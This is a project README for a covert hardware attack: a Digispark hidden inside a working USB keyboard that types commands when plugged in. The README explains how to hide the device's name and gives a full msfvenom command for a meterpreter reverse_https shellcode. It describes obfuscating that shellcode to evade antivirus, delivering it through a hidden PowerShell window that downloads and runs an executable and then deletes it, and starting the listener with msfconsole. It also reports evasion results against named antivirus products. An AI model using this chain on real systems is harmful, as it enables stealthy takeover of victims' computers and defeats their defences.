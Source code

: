 # KiB (Keyboard in Disguise)

## Parts used
1. Standard USB keyboard   
![alt text](resources/keyboard_new.png)

2. USB hub with FE1.1s chip  
![alt text](resources/usb_hub.jpg)

3. DigiSpark with Arduino ATtiny85 microprocessor  
![alt text](resources/digispark.png)

We want to use Digispark to deliver the payload while still keeping the keyboard functional, so a USB hub is needed.
The internal keyboard PCB is connected to the usb hub, and digispark is also connected to up. The upstream port of the USB hub is what will be connected to the computer.
![alt text](resources/circuit_blueprint.png)

The internal connections and layout of the completed keyboard is as follows:
![alt text](resources/keyboard_internal.png)

## Digispark bootloader

By default, the Digispark have a 5 second programming delay once plugged in for uploading new code. This has caused issues for Windows to fail to recognise Digispark as a USB device when it is connected to the hub with another keyboard, a new bootloader is needed to remove the delay, removing the delay also allows the attack to be carried out faster.

The bootloader can be found [here](https://github.com/micronucleus/micronucleus/tree/v1.11/upgrade/releases) under the name `micronucleus-1.11-entry-jumper-pb0-upgrade.hex`, the program to flash the bootloader can be found [here](https://github.com/digistump/DigistumpArduino/releases/download/1.6.5a/micronucleus-2.0a4-win.zip).

To flash the firmware, unzip the micronucleus folder, in a command prompt, enter the full path of micronucleus.exe, followed by the full path of the bootloader hex file, then plug in Digispark to the computer.

After the bootloader is flashed, the delay should be removed. To program Digispark after flashing to the new bootloader, bridge the GND and P0 pins on Digispark with a conductive wire when uploading new code.

## Hiding Digispark's name
 When a USB device is first initialised, a notification will show up in windows with the name of the device, to change the name of Digispark to better hide the device, navigate to the Arduino config file ```libraries\DigisparkKeyboard\usbconfig.h```, the name can be changed accordingly.   
![alt text](resources/digispark_namechange.png)   

## Writing a custom payload
Most antiviruses scan for known signatures to detect viruses/malwares, in order to successfully deliver the payload to the victim machine, which means most of the commonly used payloads and obfuscation method will not work. The signature of the payload must not be in any antivirus databases, so a completely new custom payload will have to be created.

First we can use msfvenom to generate a shellcode, this will be the basis where the custom payload will be built on. We chose to use reverse https encoded using the shikata_ga_nai encoder and output in C, this will make the shellcode harder to detect. 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c
```
![alt text](resources/base_shellcode.png)   

Just the shellcode itself will not evade any antivirus, so next we will need further obfuscate the shell code. In visual studio, create a new C project, we will mainly be using the ```memcpy``` function. The ```memcpy``` function allows flipping of bytes, replacing a specified number of bytes in the target ```char``` with a second ```char```. The syntax of ```memcpy``` is as follows:
```
memcpy(<target char> + <offset>, <secondary char>, <length of secondary char>)
```
![alt text](resources/memcpy_demo.png)   
The raw shellcode can be found under ```final/shell.c```.   


Using the function, we can replace the geninue bytes with dummy bytes, and store the genuine bytes in another string, when the executable runs, the genuine shellcode will then be assembled. The random bytes can be generated using random.org. Windows defender will be our primary antivirus solution to evade, since it's the most common antivirus on a windows computer. Windows defender has gotten very good at recognising signature  of the payloads, so more ```memcpy``` functions will have to be used to evade detection.   

In the final payload, the source code can be found under ```final/payload_source.cpp```, the shellcode is broken into 4 parts, each with their own scrambled bytes, and with many extra bytes and strings thrown in between. Each parts are individually assembled and the 4 parts are pieced together at the end. After obfuscation is done, build the source code into a ```.exe``` file.

Unfortunately, since windows recently added meterpreter signatures (the toolset that we're using to gain control of the victim machine), once the shellcode is reassembled, windows defender can still detect the signature, so the success rate of the payload is not very high, although we did managed to gain control a few times. Nevertheless, being able to be downloaded undetected by most antivirus solutions has proved that the evasion method works. We believe that using similar evasion method to generate a ```.dll``` file, and run the payload in memory will be able to open a reverse shell undetected. More antivirus tests can be found at the following sections.   

## Delivering the payload
Kali will be our attacking machine since it offers a wide range of tools, and we will be using the meterpreter framework to control the victim machine.   

To deliver the payload, we chose to use a 2-stage payload, with the first stage being a powershell script ```.ps1``` file, this will give us better control of the attack steps, and reduce the length of commands needed to be entered to the victim's computer. Digispark will contain the keystrokes to start the attack, we first open a hidden powershell window, then download and run the ```.ps1``` file in memory, the source code of Digispark keystrokes can be found under ```final/digispark.cpp```.   
If we want to have remote access to the victim's machine, an admin powershell is needed. , the remaining steps of the attack remains the same.    

The first stage of the payload can be found under ```final/1.ps1```, the script downloads the ```.exe``` file that we made earlier and run it, which can be found under ```final/0.exe```. the payload then deletes the ```.exe``` file after it has be run as to not leave any evidece.
![alt text](resources/powershell_script.png)   

We also need to migrate the process once the meterpreter shell opens so that the payload can be deleted by the powershell script, this can be done automatically using a ```.rc``` script in Kali. The script can be found under ```final/auto_migrate.rc```. To simplify the steps of preparing the reverse handler in Kali, another ```.rc``` script can be used, which can be found under ```final/kid_msf_auto.rc```, this script also calls the auto migrate script so both steps can be done at once.
![alt text](resources/msf_auto_script.png)   

Finally, flash Digispark using the appropriate code using the [steps laid out earlier](#digispark-bootloader). In Kali, install and start Apache service, then place ```0.exe``` and ```1.exe``` under ```/var/www/html```, and place ```kid_msf_auto.rc``` and ```auto_migrate.rc``` under ```/home/kali```. In a terminal, start the reverse shell handler by entering
```
msfconsole -q -r /home/kali/kid_msf_auto.rc
```
and wait for the victim machine to connect.   

Once the keyboard is plugged into the vitcim machine, assuming network configurations are correct and it is not intercepted by antivirus, a reverse shell should be opened and we will have control of the victim machine.   

## Antivirus evasion
**AVG:**  AVG antivirus can be evaded as per the demo video.   
  
**Avast:**  Avast can be partially evaded, if webshield is turned off to allow downloading of local network files(Avast blocks downloading files local network by default, for this project, we hosted the files on the local network for easier access and management, however, if this is a real attack, the payload would be hosted on a remote server and the webshield would not block the download), with fast migration, the meterpreter shell stayed open for a few mimutes before being detected.   
![alt text](resources/avast_evasion.png)   

 
**Windows Defender:**  in some cases, we were able to evade it, although it is not consistent, most of the time the payload can be downloaded but a meterpreter session cannot be opened without being detected. 
![alt text](resources/wdefender_evasion.png)   


**Malwarebytes:**  Malwarebytes can be evaded.
![alt text](resources/malwarebytes_evasion.png)   


**Kaspersky Security Cloud:**  The payload can be downloaded without being detected, but a meterpreter session cannot be opened without being detected.   

**Bitdefender Antivirus Free Edition:**  We were not able to evade Bitdefender Antivirus Free Edition.   

We were not able to test Mcafee, Norton because credit card information is required to start the free trail.

## References
[DigiKeyboard reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
|
[DigiMouse reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h) 
(only one can be used at a time)

[Msfvenom payload reference](https://github.com/swisskyrepo/PayloadsAllTheThings)   

Custom payload references [1](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change) [2](https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/) [3](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)
